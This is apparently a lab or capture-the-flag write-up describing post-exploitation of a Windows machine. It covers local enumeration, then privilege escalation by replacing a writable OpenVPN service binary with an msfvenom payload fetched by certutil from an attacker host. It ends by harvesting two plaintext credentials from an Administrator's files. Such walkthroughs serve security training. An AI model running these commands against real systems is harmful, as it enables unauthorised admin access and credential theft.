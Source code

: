 # Post Exploit - Scientist Machine

- [Post Exploit - Scientist Machine](#post-exploit---scientist-machine)
  - [Local Enumeration](#local-enumeration)
  - [Privilege escalation](#privilege-escalation)
  - [Local Enumeration 2 - Administrator](#local-enumeration-2---administrator)

---

## Local Enumeration

Check the user privilege:

```
whoami
whoami /priv
net localgroup administrators
```

![picture 6](images/19122d818cc716044ef963f5bb8883ea87ea009f2c1a1a3b5f6435be06ea25a5.png)  

* The current user `iyer` does not have admin privilege.

<br/>

Use `winPEAS.exe` to perform a local enumeration. (Ref: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

Serve `winPEAS.exe` using python on the attacker machine:

```
python3 -m http.server 80
```
![picture 7](images/eef477ff7de419d383c249a9f2986a1eb7ad7ce5750f06ddddb4fa44f2d46d46.png)  

<br/>

Download `winPEAS.exe` on the Scientist Machine using `certutil`:
```
certutil -urlcache -f http://192.168.100.11/winPEAS.exe .\winPEAS.exe
```

![picture 8](images/af962bc5882e8aea687ee78a54e093b1a68cb252098cf272850856b7ec762936.png)  

<br/>

Run `winPEAS.exe` to perform a local enuemraiton:
```
winPEAS.exe
```

However it is bugged since `atomic.site` is unresponsive:

![picture 9](images/395895655234d7c068ecddc6fe0243061f6150a67db8af2bf3e58f2805f63c42.png)  

<br/>

Manually enuemrating the `Program File (x86)` folder, user installed programs are `OpenVPN Technologies` and `Python38-32`:

![picture 1](images/fc1e41ab39f6288f8a7e53579493d99acac80998edd851a3c9eb183a02136f24.png)  

<br/>

Get the current running processes:

```
powershell -c "Get-Process"
```

![picture 2](images/809ed7cb3e70263d2c86c52c72c3ee0e65c497805a175cdafb511577fcd5ac95.png)  

* `ovpn.exe` is running.

<br/>

Try to see if this is a service:

```
sc query ovpn
sc qc ovpn
```

![picture 3](images/67bcae22af51961810560e330f592303606e81412837ec57e84aeb24d600a821.png)  


![picture 4](images/eb3f80e8301f9b89023e7de8d0f6507e94f2ae43d2b4c23a249d2568d47367e1.png)  

* The current user can start / stop the service

<br/>

Check the permission of the binary path:

```
icacls "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\*"
```

![picture 9](images/5ea52dee7464384a6267b0baa3688c4f010b59b28a33b3b4f72af605ded0a3e0.png)  


![picture 5](images/2bb743c073b53175c3f174cbb90fcd7edcaaf91abbf012e4482dbb926c1d9b10.png)  

* The current user has the Full permission.

<br/>

## Privilege escalation

> Technique:<br/>
> T1543.003 - Create or Modify System Process: Windows Service<br/>
> https://attack.mitre.org/techniques/T1543/003/

<br/>

First backup a copy of `ovpn.exe`:

```
copy "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\ovpn.exe" "C:\Users\Public\ovpn.exe"
```

![picture 6](images/0e1dd98d7e3385df37d3484f3225e12ee49a699982381be0571a4e840e7ec3da.png)  

<br/>

On the attacker machine, generate a payload which adds `OPERATIONS\iyer` as local admin with `msfvenom`, and then serve it using python http server:

```
msfvenom -p windows/exec CMD="net localgroup administrators OPERATIONS\iyer /add" -b "x00" -f exe > ovpn.exe
```

```
python3 -m http.server 80
```

![picture 7](images/118024c3365fe2d9a86d3746b6830d6606507cd4c01ac9c62700bd55313c95c2.png)  

<br/>

On the Scientist machine, replace `ovpn.exe` by the served one:

```
cd C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\
move ovpn.exe ovpn2.exe
certutil -urlcache -f http://192.168.100.11/ovpn.exe .\ovpn.exe
```

![picture 8](images/3fa3a6b6310fc4dd3147cbfac84b5da85c6348a99085843c2eb884657edb4e2f.png)  

<br/>

Then restart the service `ovpn` to get the binary executed.

```
sc stop ovpn
sc start ovpn
```

![picture 10](images/a0f9bcdb6e8ba5ae27a8f309e911a17d49b6b808e99ee2c3f8d0bd2866b2a5b3.png)  

![picture 11](images/49ee88a744b067ee43fca8f30e3072d2d9c29daad990d5dc40689dae8b4dbe23.png)  

![picture 12](images/77526e3b20dbc7d5a47a9cb66113ffa3743c417287673e5f75627f670eea7a96.png)  

* As shown, our privilege is escalated to local admin.

<br/>

Restart the reverse shell and we can browse the Administrator's folder:

![picture 13](images/348ce963ab113d5c0e4ab3dcd3a8f1348ab6edc6249f15fa5eb52f7ca341104e.png)  

<br/>

## Local Enumeration 2 - Administrator

Check the Administrator's desktop:

```
dir C:\Users\Administrator\Desktop\
```

![picture 14](images/c8357c88200e4b9f0983a7710d0abfbb128b173a23f71927230fafb74fea9e41.png)  


<br/>

Check the content of `Git-Configuration.txt`:

```
cd C:\Users\Administrator\Desktop
type Git-Configuration.txt
```

![picture 15](images/a3420cccfde08a278310d2952eb082c029a029d2da19b5b83c15e6b741467265.png)  

![picture 20](images/d77464f833cbc53b9ce9b6d5cf702c6b18302d80e07d1123c6cfe915b8e287b3.png)  

* `automation-server.operations.atomic.site` (`10.1.3.1`)

<br/>

Try to clone the repo to the local:

```
git clone http://automation-server.operations.atomic.site/iyer/Database-Connection.git
```

![picture 16](images/04e6889388dd66ff4e6e53416bc6227b5f6440b9737a0caa96b103e068f35587.png)  

<br/>

Check the files in to downloaded repo:

```
cd Database-Connection
dir
```

![picture 17](images/9f66eee488db83246d7c99f6af23ee054e492efb0f63d0d394cc40d676e65608.png)  

<br/>

Check the content of `migrate.txt`:

```
type to_migrate.txt
```

![picture 18](images/d273e6942095412db33f35217e9f08a734b6a61cc920ebfce4840c04f0971297.png)  

![picture 19](images/106168ff597c0bdb77e33593b129731e3b214a508d37aa4b868ae33518236d74.png)  

- Found 2 credentials:
  -  `iisadmin` \ `Head!!S%$#@!`
  -  SQL: `tutorialsdojo` \ `P@sSword123`

<br/>

